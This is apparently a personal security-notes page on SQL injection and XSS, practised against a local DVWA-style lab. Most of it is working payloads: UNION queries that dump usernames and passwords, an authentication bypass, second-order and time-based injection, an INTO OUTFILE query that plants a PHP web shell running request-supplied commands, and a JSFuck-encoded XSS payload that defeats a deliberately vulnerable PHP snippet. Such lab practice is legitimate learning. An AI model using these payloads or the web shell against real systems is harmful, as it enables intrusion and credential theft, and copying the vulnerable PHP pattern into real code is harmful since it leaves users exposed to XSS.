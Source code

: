 ```yaml
---
description: This is my playground for SQL injection and XSS
---
```


# SQL Injection & XSS Playground

## Classic SQL Injection

### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-59-39.png)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-16-03-00.png)

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99' 
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-16-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-16-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-19-15-16.png)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](../../.gitbook/assets/screenshot-from-2018-11-18-21-39-53.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-15-53-52.png)

## XSS

![](../../.gitbook/assets/peek-2018-11-17-20-17.gif)

### Strtoupper Bypass

Say we have a vulnerable PHP code like this:

```php
<?php
        $input=$_GET['name'];
        $sanitized=strtoupper(htmlspecialchars($input));   
        echo '<form action="">';
        echo "First name: <input type='text' name='name' value='".$sanitized."'><br>";
        echo "<input type='submit' value='Submit form'></form>";
        echo "</HTML></body>";
?>
```

Line 3 is vulnerable to XSS, since we can escape the input with a single quote `'`:

```php
$sanitized=strtoupper(htmlspecialchars($input));   
```

So if we set the `name` parameter to `a'`, we get:

![](../../.gitbook/assets/screenshot-from-2018-11-17-21-54-22.png)

Note that the `a` got converted to a capital `A` and this is due ot the `strtoupper` function being called on our input. What this means is that our JavaScript payload will get converted to uppercase and become invalid and will not trigger.

To bypass that constraint, we can encode our payload using JsFuck, which gives us the final payload:

```php
A' onmouseover='[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()'
```

![](../../.gitbook/assets/screenshot-from-2018-11-17-21-55-33.png)

## References

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet" %}

{% embed url="http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html" %}

{% embed url="https://www.youtube.com/watch?v=Rqt\_BgG5YyI" %}


